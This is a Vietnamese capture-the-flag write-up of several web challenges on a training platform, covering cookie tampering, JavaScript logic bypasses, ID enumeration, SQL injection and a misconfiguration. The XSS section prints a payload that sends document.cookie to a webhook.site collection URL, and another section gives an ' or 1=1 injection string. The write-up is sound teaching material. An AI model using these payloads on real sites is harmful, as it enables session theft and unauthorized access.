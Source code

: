 # Writeup-Cookie-Arena-CTF

## WEB Basic

### Hân Hoan
>Cookie
> 
Sau khi đăng nhập với username=zev và password=123 thì ta thấy được :

![cookie](https://github.com/tinasahara1/Writeup-Cookie-Arena-CTF/blob/bf4779a95f46ac284a97d67a890129d623457bfd/image/cookie1.PNG)

Sử dụng tiện ích EditThisCookie => Ta kiểm tra cookie thì thấy Role đang thiết lập mặc định là Guest:

![cookie](https://github.com/tinasahara1/Writeup-Cookie-Arena-CTF/blob/42fdc78311c5fce5192ac65f3e015fa7123c4303/image/cookie2.PNG)

Thay Guest thành CookieHanHoan => Flag
![cookie](https://github.com/tinasahara1/Writeup-Cookie-Arena-CTF/blob/42fdc78311c5fce5192ac65f3e015fa7123c4303/image/cookie_flag.PNG)

### Header 401 
> HTTP Protocol
> 
Xem source code ta thấy được chú thích gợi ý Authentication :

![header](https://github.com/tinasahara1/Writeup-Cookie-Arena-CTF/blob/06e9a05c6c9970c815c2f43e1d2136e5316bb494/image/h401_1.PNG)

Ta base64 user:pass :

![header](https://github.com/tinasahara1/Writeup-Cookie-Arena-CTF/blob/06e9a05c6c9970c815c2f43e1d2136e5316bb494/image/h401_2.PNG)

Muốn xác thực thì ta cần đổi method GET thành POST và thêm Header **Authorization:Basic<Base64username:password>** => ta sử dụng Burp Suite :

![header](https://github.com/tinasahara1/Writeup-Cookie-Arena-CTF/blob/06e9a05c6c9970c815c2f43e1d2136e5316bb494/image/h401_3_flag.png)

### JS B**p B**p
> Do you know special JavaScript?
> 
Xem source code ta phát hiện 4 file .js và 1 hàm chức năng 

![js](https://github.com/tinasahara1/Writeup-Cookie-Arena-CTF/blob/96a28f7b2e0b76715f0f5fde7e685899b392c1c7/image/jsfuck2.PNG)

Từ source code trên ta thấy được có 3 hàm xác thực verifyUsername(), verifyPassword(), verifyRole() => Ta có thể sd tool decode [JSFUCK](https://enkhee-osiris.github.io/Decoder-JSFuck/) hoặc dùng console :

![js](https://github.com/tinasahara1/Writeup-Cookie-Arena-CTF/blob/96a28f7b2e0b76715f0f5fde7e685899b392c1c7/image/jsfuck3.PNG)

Hàm verifyRole() tương đối phức tạp ta phân tích từng ý một :

```js
function verifyRole(role) {
    if (role.charCodeAt(0) != 64) {
        return false;
    }
    if ((role.charCodeAt(1) + role.charCodeAt(2) != 209) && (role.charCodeAt(2) - role.charCodeAt(1) != 9)) {
        return false
    }
    if ((role.charCodeAt(3).toString() + role.charCodeAt(4).toString() != "10578") && (role.charCodeAt(3) - role.charCodeAt(4) != 27)) {
        return false
    }
    return true
}
```
Chữ cái đầu tiên ứng charCodeAt(0) ứng với mã ascii(64) = "@"
Chữ thứ 1 và thứ 2 lần lượt được tìm thấy thông qua phép toán : 
x1 + x2 = 209 
x1 - x2 = 9
=> x1 = 100 = "d"
=> x2 = 109 = "m"
Chữ cái thứ 3 và 4 được phân tích thành chuỗi và ghép lại :
"x3" + "x4" = "10578"
=> x3 = 105 = "i"
=> x4 = 78 = "N"

Xác thực đăng phập => Flag   
![js](https://github.com/tinasahara1/Writeup-Cookie-Arena-CTF/blob/96a28f7b2e0b76715f0f5fde7e685899b392c1c7/image/jsfuck4.PNG)

Flag : `Flag{JAV-ascript_F*ck}`

### Impossible
> Tìm cách đăng nhập thông qua password
> 
Xem source code thì ta thấy được :
```js
function checkPass()
{
	var password = document.getElementById('password').value;
	if (btoa(password.replace("cookiehanhoan", "")) == "Y29va2llaGFuaG9hbg==") {
		window.setTimeout(function() {
			window.location.assign('check.php?password=' + password);
		}, 500);
	}
}
```
Hàm btoa() : mã hóa string thành base64
Nếu **password** được nhập là cookiehanhoan thì sẽ bị lọc 
Mà string sau khi decode base64 == "Y29va2llaGFuaG9hbg==" ==cookiehanhoan
Sau khi nhìn lại ta phát hiện chức năng .replace() không hề lọc đệ quy mà chỉ lọc 1 lần 
=> Ta có thể bypass nó bằng cách **cookiecookiehanhoanhanhoan**
=> Flag : `Flag{Javascript_is_not_safe???}`

###Infinite Loop
>Vòng lặp vô hạn
>
Sau khi đăng nhập với 1 username:password bất kì ta sẽ được chuyển liên tục page với id được thay đổi liên tục => Để kiểm tra ta sử dung Burp SUite thì thấy được :
![loop](https://github.com/tinasahara1/Writeup-Cookie-Arena-CTF/blob/67500160e2e9b5a515b19d62811f5b6420af3d93/image/loopid1.PNG)

Ta gửi 1 request đến Repeater để kiểm tra từng id 0->10 thì phát hiện ra flag hoặc có thể follow redirection để chuyển hướng liên tục cho đến khi thấy flag
![loop](https://github.com/tinasahara1/Writeup-Cookie-Arena-CTF/blob/67500160e2e9b5a515b19d62811f5b6420af3d93/image/loop_flag.png)

Bạn cũng có thể code 1 script nhỏ của py để chạy test id như sau :
```py
import requests

for i in range(0,11):
	idd=str(i)
	url = f"http://chal6.web.letspentest.org/check.php?id={idd}"
	r=requests.get(url,allow_redirects=False)
	if "Flag{" in r.text:
		print(r.text)
		break
	else :
		print("Failed id ="+ idd)
```

Flag: `Flag{Y0u_c4ptur3_m3_xD!!!}`

###I am not a robot
>robots.txt
>
Sau khi đọc đề mình đoán rằng bài này sẽ sử dụng **/robots.txt** thì thấy :
![robots](https://github.com/tinasahara1/Writeup-Cookie-Arena-CTF/blob/67500160e2e9b5a515b19d62811f5b6420af3d93/image/robots1.PNG)

Truy cập vào **/fl@g1337_d240c789f29416e11a3084a7b50fade5.txt** => Flag

Flag: `Flag{N0_B0T_@ll0w}`

###Sause
Xem source code => Flag 
![sause]()

Flag: `Flag{Web_Sause_Delicious}`

##Web Exploitation

###XSS
>Lỗ hổng XSS
>
Đề bài đã cho chúng ta gợi ý về lỗ hổng của bài này 
Ta test script cơ bản của XSS : `<script>alert(1)</script>`
=> Thì thấy trang xuất hiện thông báo 1 hiện lên ở page => Đó là dấu hiệu cho biết page này đã dính lỗi xss
Trước hết ta tạo 1 request bằng tool : [Webhook.site](https://webhook.site/#!/02c72b46-4d85-429b-ad90-6a208d9d102f)
Để lấy cookie ta sử dụng script sau : `<img src=x onerror=this.src='https://webhook.site/02c72b46-4d85-429b-ad90-6a208d9d102f/?'+document.cookie;>`

###Ét Quy Eo
> Lỗ hổng SQL Basic
> 
Cũng như bài xss đề bài đã gợi ý cho chúng ta về lỗ hổng của bài này 
Ta test script cơ bản của SQL : `' or 1=1-- -` cho cả username và password 
![sql](https://github.com/tinasahara1/Writeup-Cookie-Arena-CTF/blob/e157a30c9cb9b1fbdf682ae363bbd10382a7e557/image/sql.png)

Ta decode base64 => flag 
Flag: `Flag{Fr33_Styl3}` 

> Query :
>
```sql
SELECT username,password from users where username = ' or 1=1-- -'&password=' or 1=1-- -'
```

###Misconfiguration
>Gà mắc phải một sai lầm không đáng có trong việc thiết lập cấu hình Web Server
>
Sau khi đọc gợi ý về **thiết lập cấu hình Web Server** mình đã test thử **/.htaccess** 
![config](https://github.com/tinasahara1/Writeup-Cookie-Arena-CTF/blob/e157a30c9cb9b1fbdf682ae363bbd10382a7e557/image/config.PNG)

Nhưng sau khi test thêm vài endpoint nhưng vẫn không được mình quyết định sử dụng tool DirBuster 
![config](https://github.com/tinasahara1/Writeup-Cookie-Arena-CTF/blob/e157a30c9cb9b1fbdf682ae363bbd10382a7e557/image/config1.PNG)

Sau khi chạy tool thì tìm thấy **/web.config**
![config](https://github.com/tinasahara1/Writeup-Cookie-Arena-CTF/blob/e157a30c9cb9b1fbdf682ae363bbd10382a7e557/image/config2.PNG)

Trên page ta thấy **/backup-ddmmyy.bak** thì nó tải 1 file .bak về máy 
Sau đó sử dụng lệnh file backup-ddmmyy.bak => Thì phát hiện nó là 1 file .zip  
Mình đổi tên file thành backup-ddmmyy.zip => unzip thì phát hiện 1 file part3.txt
Ghép 3 phần ta được 1 flag hoàn chỉnh :

Flag: `Flag{1b283f0725d536a0f217d89caca7b183}`
